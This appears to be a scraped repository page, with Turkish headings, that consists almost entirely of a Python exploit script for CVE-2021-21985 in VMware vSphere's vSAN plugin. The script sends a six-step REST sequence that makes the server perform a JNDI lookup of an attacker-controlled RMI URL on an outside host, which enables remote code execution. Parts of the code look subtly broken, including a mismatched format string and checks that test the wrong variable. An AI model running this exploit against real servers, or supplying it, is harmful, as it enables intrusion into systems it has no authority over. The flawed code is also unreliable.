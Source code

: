 <languages   />

Ekran görüntüsü
---------------

![](Twitter_E3CB24AUUAEl1_8.jpg "Twitter_E3CB24AUUAEl1_8.jpg")

EXP
---

    import requests
    import sys
    import json
    def send_request(host,uri,json):
        try:
            req = requests.post(url=host+baseuri+uri,json=json,headers=headers,verify=False)
            return req.text
        except:
            return False
    def check_false(request):
        if request ==False or 'result' not in request:
            print("[*] No Vuln!")
            return True
    if __name__ == '__main__':
        if len(sys.argv) < 2:
            print('''python3 cve-2021-21985.py https://host rmi://8.8.8.8:1099/Exploit''')
            sys.exit()
        host = sys.argv[1]
        payload = sys.argv[2]
        baseuri = "ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService"
        uris = ["/setTargetObject", "/setStaticMethod", "/setTargetMethod", "/setArguments", "/prepare", "/invoke"]
        headers = {'Content-Type': 'application/json', "User-Agent": "pentest"}
        stage_setTargetObject = json.loads('{"methodInput":[null]}')
        stage_setStaticMethod = json.loads('{"methodInput":["javax.naming.InitialContext.doLookup"]}')
        stage_setTargetMethod = json.loads('{"methodInput":["doLookup"]}')
        stage_setArguments = json.loads('{"methodInput":[["%s"|"%s"]]}'%payload)
        stage_prepare = json.loads('{"methodInput":[]}')
        print("[*] start init TargetObject")
        # init TargetObject
        init_request  = send_request(host,uris[0],json=stage_setTargetObject)
        if check_false(init_request):
            print("[*] init failed!")
            exit()
        # Step2 setStaticMethod
        StaticMethod = send_request(host,uris[1],json=stage_setStaticMethod)
        if check_false(init_request):
            print("[*] StaticMethod init failed!")
            exit()
        # Step3 setTargetMethod
        StaticMethod = send_request(host,uris[2],json=stage_setTargetMethod)
        if check_false(init_request):
            print("[*] setTarget Method failed!")
            exit()
        # Step4 setArguments
        # print(stage_setArguments)
        setArguments = send_request(host,uris[3],json=stage_setArguments)
        if check_false(init_request):
            print("[*] setArguments failstage_setArgumentsed!")
            exit()
        # Step5 prepare
        setArguments = send_request(host,uris[4],json=stage_prepare)
        if check_false(init_request):
            print("[*] stage_prepare failed!")
            exit()
        # Step6 invoke
        setArguments = send_request(host,uris[5],json=stage_prepare)
        if check_false(init_request):
            print("[*] invoke failed!")
            exit()

Referans
--------

<https://github.com/xnianq/cve-2021-21985_exp/>

<https://twitter.com/_0xf4n9x_?s=21>